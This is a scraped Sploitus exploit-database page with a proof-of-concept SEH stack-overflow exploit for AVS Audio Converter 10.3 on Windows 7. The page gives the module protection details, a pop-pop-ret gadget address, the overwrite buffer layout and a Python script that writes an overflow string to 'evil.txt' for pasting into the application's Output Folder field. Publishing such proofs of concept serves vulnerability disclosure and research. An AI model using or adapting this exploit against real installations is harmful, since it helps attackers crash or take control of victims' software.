```yaml
---
title: AVS Audio Converter 10.3 Stack Overflow Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38043&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-20
fetch_date: 2025-10-03T20:21:45.794818
---
```


# AVS Audio Converter 10.3 Stack Overflow Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# AVS Audio Converter 10.3 Stack Overflow Exploit

2022-10-19 | CVSS 0.6

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38043
# Exploit Title: AVS Audio Converter 10.3 - Stack Overflow (SEH)
# Discovered by: Yehia Elghaly - Mrvar0x
# Discovered Date: 2022-10-16
# Tested Version: 10.3.1.633
# Tested on OS: Windows 7 Professional x86

#pop+ret Address=005154E6
#Message=  0x005154e6 : pop ecx # pop ebp # ret 0x04 | startnull {PAGE_EXECUTE_READ} [AVSAudioConverter.exe]
#ASLR: False, Rebase: False, SafeSEH: False, OS: False, v10.3.1.633 (C:\Program Files\AVS4YOU\AVSAudioConverter\AVSAudioConverter.exe)

# The only module that has SafeSEH disabled.
# Base       | Top        | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll |
# 0x00400000 | 0x01003000 | False  | False   | False |  False   | False  |

#Allocating 4-bytes for nSEH which should be placed directly before SEH which also takes up 4-bytes.

#Buffer  = '\x41'* 260
#nSEH    = '\x42'*4
#SEH     = '\x43'*4
#ESI     = 'D*44' # ESI Overwrite

#buffer = "A"*260 + [nSEH] + [SEH] + "D"*44
#buffer = "A"*260 + "B"*4 + "\xE6\x54\x51\x05" + "D"*44

# Rexploit:
# Generate the 'evil.txt' payload using python 2.7.x on Linux.
# Open the file 'evil.txt' Copy.
# Paste at'Output Folder and click 'Browse'.

#!/usr/bin/python -w

filename="evil.txt"

buffer = "A"*260 + "B"*4 + "C"*4 + "D"*44

textfile = open(filename , 'w')
textfile.write(buffer)
textfile.close()
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)